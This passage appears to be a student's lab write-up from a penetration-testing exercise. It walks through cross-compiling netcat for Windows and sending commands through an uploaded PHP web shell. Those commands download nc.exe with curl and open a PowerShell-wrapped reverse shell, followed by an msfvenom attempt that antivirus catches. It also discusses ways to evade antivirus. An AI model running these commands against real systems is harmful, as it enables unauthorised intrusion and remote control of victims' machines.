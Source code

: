 
Now we have a shell payload which for the time being is not detected by the AV so will compile it using netcat and reverse shell

We have serveral options:
- PowerShell but it may get detected
- PHP reverse shell it may also get picked up
- Msfvenom may generate a distinctive we could use [Veil Framework](https://www.veil-framework.com/) or Shelter
- Uploading netcat is the quickest and easy option.


What is cross-compilation techniques ?_?
The idea is to compile source code into a working program to run on a different platform.
It's an cross compilation skill although in many ways it's preferable to avoid it.

Always try to compile code into an environment as close to the target environment as possible. Cross-compile x64 windows programs on kali using the mingw-64 package.

It's a big package but just like gcc used to compile binaries on Linux, we can use the mingw compilers to compile windows binaries.

Will run make to build the binary the correct compiler will be used to generate a x64 windows
executable. Note there will be a lot of warnings generated by the compiler.

We have to download the nc.exe from the github and compile it on kali linux.
https://github.com/int0x33/nc.exe/
```
CC=x86_64-w64-mingw32-gcc
```

MakeFile:
![[Pasted image 20240114204304.png]]


Package:
```
sudo apt install mingw-w64
```

![[Pasted image 20240114204927.png]]

Note we have to remove or mv the already compiled binary in order for this to get working.


```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=certutil.exe
```
![[Pasted image 20240120233910.png]]
![[Pasted image 20240114230338.png]]

Cert-util is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

```
python3 -m http.server 80
```

As the curl command returned nothing when we were running it on the command line but
```
curl http://10.50.86.241/nc.exe -o c:\\windows\\temp\\nc-sardarji.exe
```
![[Pasted image 20240114231420.png]]

Now we have everything we want for a reverse shell
So will set up a listner and we are good to go
```
nc -lvnp 4242
```

```
powershell.exe c:\\windows\\temp\\nc-sardarji.exe 10.50.86.241 4242 -e cmd.exe
```

The site got hung which means we got a shell
![[Pasted image 20240114231903.png]]

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-sardarji.exe%2010.50.86.241%204242%20-e%20cmd.exe
```

I forgot to upload the nc.exe through the curl and was trying to get the reverse shell as a result there was nothing to trigger to get the shell so i got to know where i was doing the mistake.

<hr>

Let's try with the Msfvenom payload and see it's get picked by the AV and what kind of error we get cuz i the real PT situation this what's going to happen.

![[Pasted image 20240121000638.png]]

```
curl http://10.50.86.241/shell.exe -o c:\\windows\\temp\\sardarji-shell.exe
```
![[Pasted image 20240121001603.png]]

```
powershell.exe c:\\windows\\temp\\sardarji-shell.exe 10.50.86.241 4242 -e cmd.exe
```

![[Pasted image 20240121001723.png]]

This is the output we got and in return no shell the AV might deleted the file let's try to access the file and see if it's there or not from the reverse shell that we got. 
I tried to access the file list but i think the AV might have Quarantine the payload
(i.e. At this point the Administrator has also been alerted, along with the security team in a bigger organization.)

